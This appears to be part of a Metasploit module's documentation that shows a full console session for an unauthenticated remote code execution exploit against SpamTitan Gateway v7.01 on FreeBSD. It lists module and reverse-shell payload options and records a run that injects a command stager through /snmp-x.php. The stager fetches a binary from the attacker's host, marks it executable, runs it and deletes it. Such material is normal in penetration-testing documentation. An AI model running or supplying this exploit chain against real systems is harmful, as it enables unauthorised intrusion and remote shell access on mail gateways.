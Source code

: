 ### SpamTitan Gateway v7.01 - target 2 (FreeBSD Dropper - x86)

```
msf exploit(freebsd/webapp/spamtitan_unauth_rce) > set target 2
target => 2
msf exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is typically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host


Payload options (bsd/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   FreeBSD Dropper (x86)

msf exploit(freebsd/webapp/spamtitan_unauth_rce) > run

[*] Started reverse TCP handler on 172.16.60.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Check if /snmp-x.php exists
[+] The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/EtQflZ
[*] Local IP: http://192.168.1.75:8080/EtQflZ
[*] Generated command stager: ["fetch -qo /tmp/uTJGnSFj http://172.16.60.1:8080/EtQflZ", "chmod +x /tmp/uTJGnSFj", "/tmp/uTJGnSFj", "rm -f /tmp/uTJGnSFj"]
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'fetch\ -qo\ /tmp/uTJGnSFj\ http://172.16.60.1:8080/EtQflZ&'#
```